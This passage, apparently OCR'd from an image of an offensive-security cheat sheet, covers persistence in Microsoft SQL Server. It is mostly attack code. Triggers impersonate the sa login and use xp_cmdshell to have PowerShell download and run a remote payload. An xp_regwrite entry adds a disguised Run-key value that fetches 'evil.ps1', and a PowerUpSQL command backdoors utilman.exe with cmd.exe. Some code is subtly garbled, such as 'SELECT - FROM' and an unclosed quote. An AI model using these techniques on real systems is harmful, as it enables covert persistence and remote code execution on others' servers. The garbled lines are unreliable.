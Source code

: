     GRANT IMPERSONATE ON LOGIN::sa to [Public];
    USE testdb
    CREATE TRIGGER [persistence_dml_1]
    ON testdb.dbo.datatable
    FOR INSERT, UPDATE, DELETE AS
    EXECUTE AS LOGIN = 'sa'
    EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')
    GO
    ```
#### Logon Triggers
- Ideal for triggering with a logon failure of a low-privilege user.
- References:
  - <https://docs.microsoft.com/en-us/sql/relational-databases/triggers/logon-triggers>
    ```sql
    CREATE Trigger [persistence_logon_1]
    ON ALL SERVER WITH EXECUTE AS 'sa'
    FOR LOGON
    AS
    BEGIN
    IF ORIGINAL_LOGIN() = 'testuser'
    EXEC master..xp_cmdshell 'powershell -C "iex (new-object
    System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"
    '
    END;
    ```
- List all Triggers
    ```sql
    SELECT - FROM sys.server_triggers
    ```
    ```powershell
    Get-SQLTriggerDdl -Instance instance -username sa -Password pw -Verbose
    ```

### Registry keys

**`xp_regwrite`**

- Needs `sysadmin`

```sql
EXEC xp_regwrite
@rootkey = 'HKEY_LOCAL_MACHINE',
@key = 'Software\Microsoft\Windows\CurrentVersion\Run',
@value_name = 'SQLServerUpdate',
@type = 'REG_SZ',
@value = 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")'
```

```powershell
Get-SQLPersistRegDebugger -Instance instance -username sa -Password pw -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Verbose
```
